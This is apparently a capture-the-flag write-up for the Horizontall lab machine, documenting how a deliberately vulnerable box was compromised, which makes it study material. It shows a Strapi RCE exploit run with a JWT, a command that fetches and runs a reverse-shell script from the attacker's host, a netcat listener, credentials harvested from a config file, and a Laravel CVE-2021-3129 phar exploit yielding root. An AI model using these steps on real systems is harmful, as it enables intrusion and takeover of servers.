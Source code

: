 ## Info
---

### Credential
 User    | Password | Service | Note
---------|----------|---------|------
admin    |(reset)   |strapi   |
developer|#J!:F9Zt2u|MySQL    |


## Path
---
### User 
---
1. When visiting `http://10.10.11.105/`, we were redirected to `http://horizontall.htb`, so add that to `/etc/hosts`.
2. Ran `gobuster` and got ban, whoops!
3. From the icon of the website and the source code, I guessed that the website is built using Vue.
```
# HTML
 <body>
     <noscript><strong>We're sorry but horizontall doesn't work properly without JavaScript enabled. Please enable it to continue.</strong></no    script>
     <div id="app"></div>
     <script src="/js/chunk-vendors.0e02b89e.js"></script>
     <script src="/js/app.c68eb462.js"></script>
 </body>

# JS
y = {
    name: "App",
    components: {
        Navbar: v,
        Home: w
    },
    data: function() {
        return {
            reviews: []
        }
    },
    methods: {
        getReviews: function() {
            var t = this;
            r.a.get("<http://api-prod.horizontall.htb/reviews>").then((function(s) {
                return t.reviews = s.data
            }))
        }
    }
}
```
4. From `app.c68eb462.js`, I recovered the base64 encoded image to `b64-img.png`, it was a GitHub icon.
5. From `app.c68eb462.js`, I found the API URL.
```
getReviews: function() {
    var t = this;
    r.a.get("<http://api-prod.horizontall.htb/reviews>").then((function(s) {
        return t.reviews = s.data
    }))
}
```
6. Added the API subdomain to `/etc/hosts`, then try to request to the API.
```
$ curl http://api-prod.horizontall.htb/reviews| jq
[
  {
    "id": 1,
    "name": "wail",
    "description": "This is good service",
    "stars": 4,
    "created_at": "2021-05-29T13:23:38.000Z",
    "updated_at": "2021-05-29T13:23:38.000Z"
  },
  {
    "id": 2,
    "name": "doe",
    "description": "i'm satisfied with the product",
    "stars": 5,
    "created_at": "2021-05-29T13:24:17.000Z",
    "updated_at": "2021-05-29T13:24:17.000Z"
  },
  {
    "id": 3,
    "name": "john",
    "description": "create service with minimum price i hop i can buy more in the futur",
    "stars": 5,
    "created_at": "2021-05-29T13:25:26.000Z",
    "updated_at": "2021-05-29T13:25:26.000Z"
  }
]
```
7. Visiting `http://api-prod.horizontall.htb/admin`, it was a login page and the title read "strapi", which was a "Open Source Nodes.js Headless CMS". Searched on `searchsplot`, it showed  we might be able to reset the password of admin account and get RCE.
```
$ searchsploit strapi
-------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                      |  Path
-------------------------------------------------------------------------------------------------------------------- ---------------------------------
Strapi 3.0.0-beta - Set Password (Unauthenticated)                                                                  | multiple/webapps/50237.py
Strapi 3.0.0-beta.17.7 - Remote Code Execution (RCE) (Authenticated)                                                | multiple/webapps/50238.py
Strapi CMS 3.0.0-beta.17.4 - Remote Code Execution (RCE) (Unauthenticated)                                          | multiple/webapps/50239.py
```
8. When playing, the password had already been reset to `admin` by another player, so I guessed the credential and only needed to ran the RCE script.
```
$ python3 50238.py 'http://api-prod.horizontall.htb' 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjMwOTE4MjQ0LCJleHAiOjE2MzM1MTAyNDR9.6EhNcUkTStrJ-FNZOGyVdTSlWV5j0dMZNyuN6tVTCyo' 'curl 10.10.17.233:8000/rev.sh -o /tmp/a' 10.10.17.233
$ python3 50238.py 'http://api-prod.horizontall.htb' 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjMwOTE4MjQ0LCJleHAiOjE2MzM1MTAyNDR9.6EhNcUkTStrJ-FNZOGyVdTSlWV5j0dMZNyuN6tVTCyo' 'sh /tmp/a' 10.10.17.233

$ nc -lvnp 13337
Listening on 0.0.0.0 13337
Connection received on 10.10.11.105 37378
bash: cannot set terminal process group (1783): Inappropriate ioctl for device
bash: no job control in this shell
strapi@horizontall:~/myapi$
```
9. At the bottom left of the admin panel of strapi, it wrote `Powered by Strapi v3.0.0-beta.17.4`, so we can confirm it was affected. 

10. The user flag was readable by all users, so got the user flag. (After I reset the box, the permissino didn't change, so maybe it was intended ?)

### Root 
---
1. Found MySQL credential at `/opt/strapi/myapi/config/environments/development/database.json`.
```
strapi@horizontall:~/myapi/config/environments/development$ cat database.json
{
  "defaultConnection": "default",
  "connections": {
    "default": {
      "connector": "strapi-hook-bookshelf",
      "settings": {
        "client": "mysql",
        "database": "strapi",
        "host": "127.0.0.1",
        "port": 3306,
        "username": "developer",
        "password": "#J!:F9Zt2u"
      },
      "options": {}
    }
  }
}
```
2. `http://127.0.0.1:8000` was running `Laravel v8`.
```
strapi@horizontall:/etc$ netstat -l
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State
tcp        0      0 localhost:8000          0.0.0.0:*               LISTEN
...
strapi@horizontall:/etc$ curl 127.0.0.1:8000
...
<div class="ml-4 text-center text-sm text-gray-500 sm:text-right sm:ml-0">
        Laravel v8 (PHP v7.4.18)
</div>
```

3. Since it showed the stack trace, Laravel was running in debug mode.
```
strapi@horizontall:/etc$ curl 127.0.0.1:8000/profiles
...
#49 /home/developer/myproject/vendor/laravel/framework/src/Illuminate/Pipeline/Pipeline.php(103): Illuminate\Pipeline\Pipeline-&gt;Illuminate\Pipeline\{closure}()
#50 /home/developer/myproject/vendor/laravel/framework/src/Illuminate/Foundation/Http/Kernel.php(141): Illuminate\Pipeline\Pipeline-&gt;then()
#51 /home/developer/myproject/vendor/laravel/framework/src/Illuminate/Foundation/Http/Kernel.php(110): Illuminate\Foundation\Http\Kernel-&gt;sendRequestThroughRouter()
#52 /home/developer/myproject/public/index.php(52): Illuminate\Foundation\Http\Kernel-&gt;handle()
#53 /home/developer/myproject/server.php(21): require_once('/home/developer...')
#54 {main}
-->
</body>
</html>
```
4. Laravel before version 8.4.2 was vulnerable to CVE-2021-3129, so I found the [script](https://github.com/ambionics/laravel-exploits
) on GitHub, then modified it to compat with `python3.6` and ran it to get the root flag.
```
$ php -d'phar.readonly=0' ./phpggc --phar phar -o /tmp/exploit.phar --fast-destruct monolog/rce1 sysytem id

strapi@horizontall:/tmp/.a$ python3 laravel-ignition-rce.py http://127.0.0.1:8000/ /tmp/.a/exploit.phar
+ Log file: /home/developer/myproject/storage/logs/laravel.log
+ Logs cleared
+ Successfully converted to PHAR !
+ Phar deserialized
--------------------------
uid=0(root) gid=0(root) groups=0(root)
--------------------------
+ Logs cleared
```
